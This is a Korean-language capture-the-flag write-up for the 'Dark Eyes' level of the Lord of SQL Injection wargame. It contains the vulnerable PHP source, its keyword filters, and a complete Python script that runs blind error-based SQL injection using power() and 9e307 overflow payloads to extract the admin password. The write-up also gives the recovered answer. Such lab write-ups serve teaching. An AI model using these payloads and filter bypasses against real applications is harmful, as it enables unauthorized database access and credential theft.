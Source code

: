 # Lord of SQL Injection No.22 Dark Eyes

Dark Eyes 문제는 여러 제약을 가지며 Error Based SQL Injection을 수행해볼 수 있도록 유도한 문제이다.

## 소스 코드
```php
<?php
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/col|if|case|when|sleep|benchmark/i', $_GET[pw])) exit("HeHe");
  $query = "select id from prob_dark_eyes where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(mysql_error()) exit();
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  
  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_dark_eyes where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("dark_eyes");
  highlight_file(__FILE__);
?>
```

```php
if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
```

`$_GET` 방식으로 입력받은 `pw`값에 `prob`, `_`, `.`, `(`, `)`가 들어있으면 `No Hack ~_~`이 출력된 후 문제 풀이에 실패하게 된다.

```php
if(preg_match('/col|if|case|when|sleep|benchmark/i', $_GET[pw])) exit("HeHe");
```

`col`, `if`, `case`, `when`, `sleep`, `benchmark` 가 `pw` 값에 포함되면 `HeHe`를 출력한 후 문제 풀이에 실패하게 된다.

```php
if(mysql_error()) exit();
```

위의 조건절은 이전 문제였던 Iron Golem에서 처음 선보였던 조건절과 매우 흡사하지만 차이가 있다.

이전 문제에서는 "MySQL에서 오류가 발생하면 **에러를 출력한 후**에 종료한다" 라는 의미의 조건절이 있었지만, 위의 조건절은 아무 것도 출력하지 않고 `exit` 함수가 실행되기만 한다.

하지만, 이 조건절로도 무난하게 **Error Based SQL Injection** 공격이 가능하다.

#### 문제 풀이 조건

```php
if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("dark_eyes");
```

`$_GET` 방식으로 입력받은 `pw`값과 DB에 존재하는 `pw`값이 일치하면 문제 풀이에 성공하게 된다.

## Solution

21번 Iron Golem 문제에서는 `power`를 이용한 지수 연산 오류를 이용하여 문제를 해결했었다.

이번 문제에서는 `power` 함수 뿐만 아니라 지수 연산 최대치 값을 이용한 연산을 통해 문제를 해결할 것이다.

```python
import urllib.request
from urllib.parse import quote

result = ""

pwlen = 0

for i in range(0, 30):
    url = "http://los.eagle-jump.org/dark_eyes_a7f01583a2ab681dc71e5fd3a40c0bd4.php?pw="
    data = "' or id='admin' and power((length(pw)={})+1,99999999999999) -- ;".format(str(i))
    print(data)
    data = quote(data)
    re = urllib.request.Request(url + data)
    re.add_header("User-agent", "Mozilla/5.0")
    re.add_header("Cookie", "PHPSESSID=67rse542trun7sp0rtrd5pp612")
    res = urllib.request.urlopen(re)

    if str(res.read()).find("query :") == -1:
        pwlen = i
        print("Password Length is {} !!".format(pwlen))
        break

for i in range(1, pwlen + 1):
    for j in range(ord('0'), ord('z')):
        url = "http://los.eagle-jump.org/dark_eyes_a7f01583a2ab681dc71e5fd3a40c0bd4.php?pw="
        data = "' or id='admin' and (((substr(pw,{},1)='{}')+1)*9e307) -- ;".format(str(i), chr(j))
        print(data)
        data = quote(data)
        re = urllib.request.Request(url + data)
        re.add_header("User-agent", "Mozilla/5.0")
        re.add_header("Cookie", "PHPSESSID=67rse542trun7sp0rtrd5pp612")
        res = urllib.request.urlopen(re)

        if str(res.read()).find("query :") == -1:
            result += chr(j).lower()
            print(result)
            break
print("Password is [{}]!!".format(result))
```

```python
data = "' or id='admin' and power((length(pw)={})+1,99999999999999) -- ;".format(str(i))
```

`pwlen`은 `power`를 사용해서 구해볼 것이다.

위의 코드를 살펴보면 `length(pw)`에 일치하는 값이 매칭되면 1이 반환되기 때문에 1+1의 연산이 되고 결국 올바른 값이 매칭되면 `power(2,99999999999999)` 즉, 2^99999999999999라는 값이 들어가게 되어 에러를 내뿜는다.

소스 코드에서 MySQL에 오류가 생기면 에러를 출력하지 않고 빈 페이지로 이동하게 되기 때문에, 이를 이용하여 에러가 발생하지 않으면 항상 존재할 수 밖에 없는 `query :` 라는 문자열을 찾도록하여 올바른 값이 매칭되면 -1을 반환하도록 한다.

```python
if str(res.read()).find("query :") == -1:
        pwlen = i
        print("Password Length is {} !!".format(pwlen))
        break
```

올바른 값이 매칭되면 빈 페이지를 띄우기 때문에 `read` 함수에서의 반환값은 -1이다.

이를 이용하여 반환값이 -1일 때, 대입했던 값을 `pwlen`에 저장한 후 반복문을 탈출한다.

위의 코드를 실행하면 `pwlen`가 8이라는 것을 알 수 있다.

```python
data = "' or id='admin' and (((substr(pw,{},1)='{}')+1)*9e307) -- ;".format(str(i), chr(j))
```

`pw`의 값을 매칭시킬 때에는 `power` 함수 대신 **9e307**이라는 지수 연산 최대치를 이용했다.

MySQL에서는 e를 이용하여 지수 연산이 가능하다.

예를 들어, 3e3 이라고 하면 3*10³ 이 되는 것인데, MySQL에서는 9e307이 최대치라고 한다.
그렇기 때문에 `substr`로 자른 문자열이 대입한 값과 일치하게 되면 1을 반환하고, 1+1이 되기 때문에 올바른 값이 매칭될 때만 9e307 * 2를 반환하여 에러를 발생시킨 후 빈 페이지로 전환하게 된다.

반환값 -1을 이용하여 찾은 `pw` 값은 `5a2f5d3c`이기 때문에,

```
http://los.eagle-jump.org/dark_eyes_a7f01583a2ab681dc71e5fd3a40c0bd4.php?pw=5a2f5d3c
```

URL에 `pw` 값을 대입하면 문제 풀이에 성공하게 된다.